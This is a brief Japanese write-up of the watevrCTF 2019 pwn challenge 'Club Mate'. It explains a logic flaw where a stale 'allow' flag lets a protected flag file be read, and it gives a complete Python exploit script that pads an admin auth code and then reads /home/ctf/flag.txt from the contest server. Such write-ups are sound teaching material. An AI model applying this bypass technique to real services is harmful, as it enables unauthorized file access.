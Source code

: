 # [pwn 144pts] Club Mate - watevrCTF 2019
64ビットバイナリで、PIEやRELROが無効です。
```
$ checksec -f wat-sql
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes     0               3       wat-sql
```
フラグ以外のファイルが読めますが、allowフラグが立っていればフラグも読めます。
allowフラグは有効なファイルを読もうとしたときに立ちますが、ファイルが存在しないときにそのまま放置されます。
なので存在しないファイルを読んでからフラグを読めば開けます。
```python
from ptrlib import *

#sock = Process("./wat-sql")
sock = Socket("13.53.39.99", 50000)

# auth
code = b'watevr-sql2019-demo-code-admin'
code += b'\x00' * (0x20 - len(code))
code += b'sey'
sock.sendafter(": ", code)

# abort read
sock.sendlineafter("Query: ", "read ")
sock.sendlineafter("from: ", "/ponta")

# read flag
sock.sendlineafter("Query: ", "read ")
sock.sendlineafter("from: ", "/home/ctf/flag.txt")
sock.sendlineafter("read: ", "0")

sock.interactive()
```

# 感想
簡単ですね。

